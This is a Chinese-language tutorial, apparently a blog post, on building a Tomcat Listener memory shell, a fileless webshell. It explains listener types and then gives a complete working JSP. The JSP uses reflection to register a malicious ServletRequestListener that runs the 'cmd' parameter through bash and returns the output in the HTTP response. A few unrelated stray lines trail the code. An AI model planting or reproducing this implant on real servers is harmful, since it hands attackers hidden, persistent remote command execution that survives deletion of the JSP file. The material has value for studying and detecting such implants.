

前言
前文分析了Tomcat Filter内存马，这次来分析一下Listener内存马。
Tomcat Listener
Listener是Servlet的监听器，在filter跟servlet前加载，所以优先级自然是最高的。
从功能上看，Listener分为三种:
1. ServletContext型: 在服务器启动和终止时触发;
2. Session型: 在有关Session操作时触发;
3. Request型: 在访问服务时触发。
但最适合做内存马的是Request型的Listener，因为只要访问服务就能触发操作。
Tomcat Listener接口的选择
Tomcat Listener的接口有两种:
1. LifecycleListener接口: 一般用于tomcat初始化启动阶段，此时还不能解析客户端的请求，不适用于内存马。
2. EventListener接口: 用于对各个对象的监听，可以用于内存马。
从图中可以看到继承自EventListener的接口ServletRequestListener，每次请求都会触发这个Listener。
{kind=link}
Tomcat Listener内存马
这里先是获取上下文，之后使用addApplicationEventListener方法添加恶意的Listener。 不过也有看到其它文章先用getApplicationEventListeners方法将applicationEventListenersList取出来，再放入恶意的Listener。
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%!
public class MyListener implements ServletRequestListener {
public void requestDestroyed(ServletRequestEvent sre) {
HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
if (req.getParameter("cmd") != null){
InputStream in = null;
try {
in = Runtime.getRuntime().exec(new String[]{"bash","-c",req.getParameter("cmd")}).getInputStream();
Scanner s = new Scanner(in).useDelimiter("\\A");
String out = s.hasNext()?s.next():"";
Field requestF = req.getClass().getDeclaredField("request");
requestF.setAccessible(true);
Request request = (Request)requestF.get(req);
request.getResponse().getWriter().write(out);
}
catch (IOException e) {}
catch (NoSuchFieldException e) {}
catch (IllegalAccessException e) {}
}
}
public void requestInitialized(ServletRequestEvent sre) {}
}
%>
<%
// 获取上下文
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext context = (StandardContext) req.getContext();
// 通过addApplicationEventListener方法添加listener
MyListener listenerDemo = new MyListener();
context.addApplicationEventListener(listenerDemo);
%>There Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.